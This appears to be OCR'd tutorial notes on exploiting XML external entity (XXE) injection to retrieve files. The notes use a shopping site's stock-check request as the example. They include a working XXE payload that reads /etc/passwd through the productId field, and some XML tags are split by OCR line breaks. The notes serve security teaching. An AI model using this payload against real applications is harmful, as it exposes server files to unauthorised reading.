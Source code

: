 
## Exploiting XXE to Retrieve Files

- Need to modify submitted XML in two ways
	- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to a file.
	- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

- Example -- shopping application checking for stock by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId><
/stockCheck>
```

- Exploit
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></st
ockCheck>
```

Define an external entity (&xxe;) whose value is the contents of /etc/passwd and uses the entity within the productId value